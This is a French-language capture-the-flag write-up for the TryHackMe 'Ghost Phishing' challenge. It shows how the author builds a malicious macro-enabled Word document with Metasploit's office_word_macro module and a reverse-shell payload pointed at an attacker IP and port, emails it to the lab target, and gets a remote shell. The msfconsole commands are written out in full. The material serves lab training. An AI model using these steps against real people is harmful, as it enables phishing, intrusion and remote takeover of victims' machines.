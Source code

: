 ```yaml
---
title: TryHackMe - Ghost Phishing
date: 2025-03-24 17:46:19 -0400
description: Dans le cadre du HackfinityBattle, un événement organisé par TryHackMe, ce challenge de cybersécurité m’a demandé de simuler une attaque Red Team en exploitant une vulnérabilité liée à l’ouverture d’un document Microsoft Word. L’objectif était de créer un document Word malveillant contenant une macro, capable d’exécuter une charge utile (payload) à l’ouverture, et de l’envoyer à la cible, cipher@darknetmail.corp, en s’assurant qu’elle l’ouvre pour établir une connexion à distance. Ce défi, proposé par TryHackMe, visait à tester mes compétences en Red Team, notamment en génération de payloads avec Metasploit, en création de documents malveillants via des macros, en ingénierie sociale pour inciter la cible à ouvrir le fichier, et en gestion de sessions à distance dans un environnement contrôlé.
categories: [TryHackMe]
tags: [THM, CTFs, Hacking, macro, word, msfconsole]
image:
    path: https://i.ibb.co/fY9ysQ9r/gh.png
---
```



- **[The Best Academy to Learn Hacking](https://referral.hackthebox.com/mz6xj5g)**.
- **[Beginner Friendly challenges on TryHackMe](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.


<h2 style="color: orange;">Description</h2>
Nous avons réussi à accéder à l'e-mail de **DarkSpecter**, et cette fuite contient un lien direct avec les dernières opérations de **Cipher**. Les échanges chiffrés contiennent des renseignements précieux : des informations sur les attaques récentes, les systèmes compromis et les cibles potentielles. Cela pourrait être notre meilleure chance de prévoir les prochaines actions de Cipher et de démanteler définitivement son réseau.

<h2 style="color: orange;">Resolution</h2>
D'abord, je me suis connecté à l'adresse email fournie dans le cadre du challenge pour analyser les communications et mieux comprendre les attentes. 

![Email](https://i.ibb.co/wFvmjr51/r.png)

Ici, comme on le constate, pour faire un briefing, `cipher@darknetmail.corp` demande à `specter@darknetmail.corp` de lui fournir un rapport détaillé sur une opération récente. Le message, envoyé le **1er mars 2025**, mentionne des préoccupations suite à une attaque et insiste sur l’urgence de recevoir un rapport complet, incluant les méthodologies, les outils utilisés et les anomalies rencontrées. L’email précise également que le rapport doit être envoyé directement via ce canal.

En analysant ce message, j’ai compris que l’objectif était de créer un **document Word** avec une **macro** malveillante pour répondre à cette demande, en y intégrant une charge utile (payload) qui s’exécuterait à l’ouverture du fichier par la cible, `cipher@darknetmail`.corp. Pour ce faire, j’ai décidé de générer un payload en utilisant `msfconsole`, l’interface de Metasploit, afin de concevoir une attaque efficace.



Avant de commencer, j’ai vérifié la disponibilité d’un module adapté pour une attaque par **macro** sur ma version de `Kali Linux`. J’ai utilisé `searchsploit` pour rechercher des exploits liés aux macros :



```console
$ searchsploit macro
```

![Result](https://i.ibb.co/bggq4rm6/r-1.png)

Le résultat m’a montré plusieurs options, et j’ai décidé de sélectionner le premier exploit disponible : `LibreOffice < 6.0.7 / 6.1.3 - Macro Code Execution`. Cependant, pour ce challenge, j’ai utilisé un module `Metasploit` spécifique pour **Microsoft Word**. J’ai donc lancé `msfconsole` et configuré l’exploit comme suit :

```console
$ msf6 > use exploit/multi/fileformat/office_word_macro
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
$ msf6 exploit(multi/fileformat/office_word_macro) > set payload windows/shell_reverse_tcp 
payload => windows/shell_reverse_tcp
$ msf6 exploit(multi/fileformat/office_word_macro) > set lhost tun0 
lhost => 10.6.8.193
$ msf6 exploit(multi/fileformat/office_word_macro) > set lport 1337
lport => 1337
$ msf6 exploit(multi/fileformat/office_word_macro) > set filename hacked.docm
filename => hacked.docm
$ msf6 exploit(multi/fileformat/office_word_macro) > run
[*] Using template: /usr/share/metasploit-framework/data/exploits/office_word_macro/template.docx
[*] Injecting payload in document comments
[*] Injecting macro and other required files in document
[*] Finalizing docm: hacked.docm
[+] hacked.docm stored at /home/bloman/.msf4/local/hacked.docm
```

Le module a généré avec succès un **document Word** malveillant nommé `hacked.docm`, contenant une **macro** qui exécutera le payload à l’ouverture. Ensuite, j’ai mis en place un listener avec `netcat` pour recevoir la connexion une fois que la cible ouvrirait le document

J’ai ensuite envoyé le document `hacked.docm` à `cipher@darknetmail.corp` via l’interface email.

![check](https://i.ibb.co/vxwNw5H6/hacked.png)

Quelques minutes plus tard, la cible a ouvert le document, ce qui a déclenché l’exécution de la **macro**. Cela m’a permis d’établir une connexion à distance et de prendre le contrôle de la machine de la cible :

![Hacked](https://i.ibb.co/ZRsnB6bM/r-hacked.png)






<h2 style="color: orange;">Ressources supplementaires</h2>
Voici quelques ressources supplémentaires qui pourraient vous être utiles :
- [Rapid7 Macro](https://www.rapid7.com/db/modules/exploit/multi/fileformat/office_word_macro/)
- [Medium](https://medium.com/@calvintconnor/how-to-make-a-reverse-shell-with-microsoft-word-macros-94797534ffb3)
- **Love my artciles?** Follow me on [Twitter](https://x.com/@bloman19) and [Github](https://github.com/0xabdoulaye
- [Join Us on Discord](https://discord.gg/wBT9wr9ruG).
